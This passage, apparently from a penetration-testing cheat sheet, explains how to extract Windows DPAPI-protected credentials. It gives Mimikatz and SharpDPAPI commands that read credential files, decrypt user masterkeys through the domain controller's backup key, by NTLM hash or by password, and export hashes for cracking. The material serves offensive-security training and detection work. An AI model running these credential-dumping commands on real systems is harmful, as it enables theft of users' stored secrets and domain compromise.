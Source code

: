 - **Get credentials info** like the encrypted data and the guidMasterKey.

```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```

- **Access masterkeys**:

Decrypt a masterkey of a user requesting the **domain backup key** using RPC:
```bash
# Mimikatz
dpapi::masterkey /in:"C:\Users\USER\AppData\Roaming\Microsoft\Protect\SID\GUID" /rpc

# SharpDPAPI
SharpDPAPI.exe masterkeys /rpc
```

The **SharpDPAPI** tool also supports these arguments for masterkey decryption (note how it's possible to use `/rpc` to get the domains backup key,  `/password` to use a plaintext password, or `/pvk` to specify a DPAPI domain private key file...):

```
/target:FILE/folder     -   triage a specific masterkey, or a folder full of masterkeys (otherwise triage local masterkeys)
/pvk:BASE64...          -   use a base64'ed DPAPI domain private key file to first decrypt reachable user masterkeys
/pvk:key.pvk            -   use a DPAPI domain private key file to first decrypt reachable user masterkeys
/password:X             -   decrypt the target user's masterkeys using a plaintext password (works remotely)
/ntlm:X                 -   decrypt the target user's masterkeys using a NTLM hash (works remotely)
/credkey:X              -   decrypt the target user's masterkeys using a DPAPI credkey (domain or local SHA1, works remotely)
/rpc                    -   decrypt the target user's masterkeys by asking domain controller to do so
/server:SERVER          -   triage a remote server, assuming admin access
/hashes                 -   output usermasterkey file 'hashes' in JTR/Hashcat format (no decryption)
```

- **Decrypt data using a masterkey**:

```bash
# Mimikatz
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>

# SharpDPAPI
SharpDPAPI.exe /target:<FILE/folder> /ntlm:<NTLM_HASH>
```

